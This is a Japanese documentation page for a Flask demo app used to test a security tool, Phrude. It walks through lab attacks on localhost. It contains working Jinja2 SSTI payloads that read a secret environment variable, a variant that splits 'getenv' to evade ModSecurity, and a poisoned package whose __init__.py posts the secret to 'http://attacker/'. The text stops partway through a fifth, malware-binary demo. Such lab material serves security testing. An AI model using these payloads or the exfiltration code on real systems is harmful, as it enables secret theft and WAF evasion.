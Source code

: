 ```yaml
---
sidebar_position: 4
---
```


# デモ用Webアプリの解説

Phrudeの検証で用いたPython Flask製のデモ用Webアプリを <https://github.com/phrude/flask-demoapp> で公開しています。

Webアプリに任意の処理を挿入する攻撃のうち、外部からのHTTPリクエスト経由の攻撃としてSSTI、内部からの攻撃として汚染ライブラリの混入(Pythonのコードで攻撃処理が記述されているもの・マルウェアバイナリを実行するもの)が実装されています。

## Setup

動作させるためには

- [Docker](https://docs.docker.com/)
- [Docker Compose](https://docs.docker.com/compose/)

をインストールしてください

DockerおよびDocker Composeをインストール後、`docker compose up -d`コマンドで

- <http://localhost:8080> Python Flask製のデモ用Webアプリ
- <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したPython Flask製のデモ用Webアプリ
- <http://localhost:8082> 攻撃の実行時に流出させた情報を受け取る、攻撃者の模擬サーバー

が起動します。

## 擬似的な攻撃の実行

以下の5つの擬似的な攻撃を実行することができます。

### 1. 外部からのHTTPリクエスト経由の攻撃

以下のようなcurlコマンドの実行

```
curl -X POST http://localhost:8080/ssti -d name="{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}"
```

もしくは <http://localhost:8080> デモ用Webアプリに

```
{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}
```

を入力し`Send`ボタンをクリックしてください。

画面に `Hello wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY.`と表示されます。

この`wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY`は環境変数に格納されている秘密の鍵で、もしこの鍵がクラウドのリソースへアクセスするためのものである場合、このような攻撃による流出によってクラウドのリソースの不正な使用や情報流出に繋がります。

### 2. WAFに検知される外部からのHTTPリクエスト経由の攻撃

先程のデモ用WebアプリにオープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したもので同じように

以下のようなcurlコマンドの実行

```
curl -X POST http://localhost:8081/ssti -d name="{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}"
```

もしくは <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したデモ用Webアプリに

```
{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}
```

を入力し`Send`ボタンをクリックしてください。

`403 Forbidden`エラーが画面に表示されます。

WAFはHTTPリクエストの文字列に含まれる、攻撃に特有の文字列を見つけることでそのHTTPリクエストが攻撃であるかを判断します。

`docker logs flask-demoapp-modsecurity-1`コマンドでオープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)のログを確認すると`PHP Injection Attack: High-Risk PHP Function Call Found`というルールに抵触し、攻撃であると判断されたことが分かります。

### 3. WAFの検知を回避した外部からのHTTPリクエスト経由の攻撃

オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)の検知を回避するよう細工した攻撃文字列を送信します

以下のようなcurlコマンドの実行

```
curl -X POST http://localhost:8081/ssti -d name="{{(request.application.__globals__.__builtins__.__import__('os')|attr('ge'+'tenv')).__call__('CLOUD_SECRET_KEY')}}"
```

もしくは <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したデモ用Webアプリに

```
{{(request.application.__globals__.__builtins__.__import__('os')|attr('ge'+'tenv')).__call__('CLOUD_SECRET_KEY')}}
```

を入力し`Send`ボタンをクリックしてください。

画面に `Hello wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY.`と表示されます。

オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)の検知を回避し、環境変数に格納されている秘密の鍵`wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY`を流出させることができました。

### 4. Pythonのコードで攻撃処理が記述されている汚染ライブラリの混入による攻撃

このデモ用Webアプリが導入しているライブラリstealer_packageでは`__init__.py`ファイルに不審な処理が記述されています。

```python
try:
    import os
    import requests

    # Get an environment variable
    secret = os.getenv("CLOUD_SECRET_KEY")
    requests.post("http://attacker/", data={"CLOUD_SECRET_KEY": secret})
except:
    pass
```

ここではgetenv関数で環境変数に格納されている秘密の鍵を取得し、外部のサーバー`http://attacker/`へ送信しています。

ライブラリstealer_packageで提供されている機能を使う処理を実行します。

以下のようなcurlコマンドの実行

```
curl http://localhost:8081/stealer
```

もしくは <http://localhost:8081/stealer> へブラウザでアクセスしてください。

画面に `Stealer demo is executed`と表示されます。

このとき、デモ用Webアプリが導入しているライブラリstealer_package内の不審な処理が実行され、秘密の鍵が攻撃者のサーバー`http://attacker/`に送信され流出しました。

攻撃者の模擬サーバー <http://localhost:8082> を確認すると

```
[{'CLOUD_SECRET_KEY': 'wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY'}]
```

と秘密の鍵が攻撃者の手に渡っていることが確認できます。

### 5. マルウェアバイナリを実行する汚染ライブラリの混入による攻撃

```
curl http://localhost:8081/malware
```
